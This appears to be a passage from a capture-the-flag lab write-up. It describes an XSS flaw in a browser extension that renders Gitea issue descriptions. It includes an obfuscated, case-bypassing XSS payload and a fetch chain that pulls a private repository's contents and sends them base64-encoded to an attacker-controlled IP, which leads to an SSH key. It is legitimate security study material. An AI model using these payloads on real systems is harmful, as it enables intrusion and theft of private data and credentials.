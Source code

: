 - This line of code selects an HTML element with class name "issue list" and assigns it to a constant variable list. The [0] at the end indicates that we want to select the first element with this class name.
- The second line assigns the console.log function to a variable named "log" for convenience.
The if statement on lines 4-7 checks if the "list" variable is null. If it is, the function logs "No gitea page.." to the console and exits.
- If the "list" variable is not null, the code continues by selecting all the "li" elements inside the "list" element and assigning them to a variable named "elements" using the "querySelectorAll" method.
- The "forEach" method is called on the "elements" array to iterate over each issue item.
- Inside the forEach loop, the code extracts the issue link URL, generates the API URL, and fetches the data using the "fetch" method.
- The check() function is then called with the issue body string as an argument, which removes any HTML tags and filters out any characters that are not allowed in the issue description (semicolon, single quotes, parentheses, etc.). Finally, the issue description is added to the corresponding list item on the page.
- The check() function is a helper function that takes a string as an argument and returns a filtered version of that string. It removes any HTML tags and filters out certain characters that are not allowed in the issue description according to the filter array. If the filtered string contains any of the filtered characters, it returns an empty string, otherwise it returns the original string.

This creates a vulnerability for cross site scripting(XSS).
Even though the extension seems to be doing some kind of filtering, we can actually bypass this by using casing. This is because html is not case sensitive.

#### Bypassing...
![Screenshot from 2023-03-23 12-21-23](https://user-images.githubusercontent.com/99975622/228463270-46956454-c029-45ad-9593-32fa9f6ce92f.png)

We can actually see the repositories that we have access to.
![Screenshot from 2023-03-23 12-25-34](https://user-images.githubusercontent.com/99975622/228463554-e32f6769-e271-4824-8477-dcb02e520cca.png)

Since we already have a good idea of how to bypass this, we can use the below payload.
```
fetch("http://dev.snippet.htb/api/v1/repos/charlie/backups/contents")
.then(response => response.json())
.then(data=>fetch("http://10.10.14.246:8000/"+btoa(JSON.stringify(data)))); 

```
We can use this payload to try and access the internal server's repos and get  information on them.
Xss
```
<><img sRc=x
onerror=eval.call`${"eval\x28atob`BASE64_PAYLOAD`\x29"}`>

```

We can then set up a listener and listen for the base64 response.

![Screenshot from 2023-03-23 12-36-56](https://user-images.githubusercontent.com/99975622/228466310-e65d4044-8663-40e8-ac2c-8622c6475596.png)
If we base64 decode it;
![Screenshot from 2023-03-23 12-39-19](https://user-images.githubusercontent.com/99975622/228466361-273cb00d-0ea1-4f08-af60-8dffd4094531.png)
We can see we have access to charlie's backups repository.
With that,we can send a payload to get the repository as base64 and we get the base64 encoded file.
![Screenshot from 2023-03-23 12-43-02](https://user-images.githubusercontent.com/99975622/228466856-4a90918a-d99d-4a2f-b9c6-bbfd6f22d53e.png)
The response.
![Screenshot from 2023-03-23 13-07-11](https://user-images.githubusercontent.com/99975622/228467310-fc690dff-d095-4ed5-8c4c-32bb07048019.png)
We can then grab the file contents which are base64 encoded.
![Screenshot from 2023-03-23 13-07-51](https://user-images.githubusercontent.com/99975622/228467420-54ee5513-795c-4cdc-8412-a36bbb896f81.png)
![Screenshot from 2023-03-23 13-09-28](https://user-images.githubusercontent.com/99975622/228467644-5e6a3fbf-7628-42d0-925e-f8d11f81301a.png)
If we decompress the zip file, we get an ssh key.
![Screenshot from 2023-03-23 13-10-01](https://user-images.githubusercontent.com/99975622/228468672-fd3e4e93-42e8-4fb1-afc7-cbcbc8fa70dc.png)